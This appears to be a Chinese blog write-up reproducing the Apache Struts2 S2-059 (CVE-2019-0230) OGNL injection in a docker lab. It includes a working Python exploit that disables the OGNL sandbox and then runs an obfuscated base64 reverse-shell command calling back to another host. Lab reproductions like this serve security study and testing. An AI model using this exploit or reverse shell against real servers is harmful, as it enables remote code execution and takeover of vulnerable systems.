



# Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230) - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283234.html`](https://www.cnblogs.com/NoCirc1e/p/16283234.html)

Apache Struts 框架, 会对某些特定的标签的属性值，比如 id 属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的 OGNL 表达式，造成 OGNL 表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20

参考链接：

*   [`cwiki.apache.org/confluence/display/WW/S2-059`](https://cwiki.apache.org/confluence/display/WW/S2-059)
*   [`securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776`](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)

## 漏洞环境

启动 Struts 2.5.16 环境:

```
docker-compose up -d
```


启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面



## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现 233*233 的结果被解析到了 id 属性中：



《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过 struts2.5.16 版本的沙盒的 poc，利用这个 poc 可以达到执行系统命令。

通过如下 Python 脚本复现漏洞：

```
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE1MC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

反弹 Shell 成功

